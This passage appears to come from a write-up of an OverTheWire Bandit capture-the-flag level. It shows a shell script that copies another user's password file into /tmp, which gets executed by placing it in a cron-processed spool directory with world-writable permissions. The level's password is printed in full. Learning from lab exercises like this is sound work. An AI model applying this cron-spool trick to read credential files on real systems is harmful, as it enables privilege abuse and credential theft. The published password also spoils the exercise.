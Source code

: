 Inside the `script.sh`, include the following line:

```bash
#!/bin/sh
cat /etc/bandit_pass/bandit24 >> /tmp/alex1234/bandit24pass
```

Then, change the script permissions, copy it to the `/var/spool/bandit24` directory, and wait for the result:

```bash
chmod 777 script.sh 
cp script.sh /var/spool/bandit24
chmod 777 /tmp/alex1234/
# Wait 1 minute
ls
cat bandit24pass 
```

Password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
 # completed till level 24 enthusiast to be part of awesome sp cryptonite#
# THANKS
